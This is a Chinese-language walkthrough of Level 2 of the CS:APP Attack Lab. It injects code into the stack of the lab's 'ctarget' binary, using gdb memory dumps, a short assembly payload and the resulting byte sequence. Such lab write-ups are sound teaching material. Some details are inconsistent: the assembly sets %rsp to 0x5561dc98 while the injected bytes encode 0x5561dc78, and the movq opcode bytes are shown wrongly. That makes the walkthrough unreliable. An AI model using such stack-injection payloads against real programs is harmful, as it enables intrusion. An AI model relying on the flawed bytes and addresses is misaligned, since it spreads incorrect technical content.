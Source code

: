 # Part I: Code Injection Attacks

这一部分的讲义中提到程序设定为运行时栈内存的地址不发生变化，因此通过`gdb`可以查看内存，进行数据和代码的注入。

## Level 2

通过查看内存可以发现，当执行`getbuf()`时，栈顶指针`%rsp`指向的地址为`0x5561dc78`，查看`%rsp -> %rsp + 48`这一段内存：

```bash
(gdb) b *0x4017b4
Breakpoint 5 at 0x4017b4: file buf.c, line 16.
(gdb) r -q
Starting program: /csapp/lab/target1/ctarget -q
Cookie: 0x59b997fa
Type string:asd

Breakpoint 5, getbuf () at buf.c:16
16      in buf.c
(gdb) x /48xb $rsp
0x5561dc78:     0x61    0x73    0x64    0x00    0x00    0x00    0x00    0x00
0x5561dc80:     0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x5561dc88:     0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x5561dc90:     0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x5561dc98:     0x00    0x60    0x58    0x55    0x00    0x00    0x00    0x00
0x5561dca0:     0x76    0x19    0x40    0x00    0x00    0x00    0x00    0x00
```

我们函数的返回地址为`0x401976`，可以发现是返回到`test()`函数。为了正确执行`touch2()`函数且确保我们传入的参数和给定的`cookie`值相同（`0x59b997fa`），我们需要将`%rdi`的值设为cookie的值，之后改变返回地址，让程序执行`ret`指令直接跳转到`touch2()`函数中。

由于实验的讲义建议我们不要使用`jmp`或者`call`指令，因此，我们通过修改`ret`的返回地址来进行跳转。

0. 修改内存`0x5561dc78`处的值为`0x4017ec`
1. 修改返回地址执行我们注入的指令执行的地址(`0x5561dc90`)
2. 修改`%rdi`的值为cookie对应的值
3. 修改`%rsp`指向`0x5561dc78`
4. 返回

对应的汇编语句为
```s
# code12.s
movq  $0x59b997fa, %rdi       
movq  $0x5561dc98, %rsp 
retq
```

使用指令编译并进行反编译

```bash
gcc -c code12.s
objdump -d code12.o > code12.d
```

在`code12.d`中即可看到对应的汇编指令。将得到的二进制指令写入到代码注入的内存栈中即可。注入后内存内容如下：

```bash
0x5561dc78:     0xec    0x17    0x40    0x00    0x00    0x00    0x00    0x00
0x5561dc80:     0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x5561dc88:     0x00    0x00    0x00    0x00    0x00    0x00    0x00    0x00
0x5561dc90:     0x48    0x17    0x17    0xfa    0x97    0xb9    0x59    0x48
0x5561dc98:     0xc7    0xc4    0x78    0xdc    0x61    0x55    0xc3    0x00
0x5561dca0:     0x90    0xdc    0x61    0x55    0x00    0x00    0x00    0x00
```
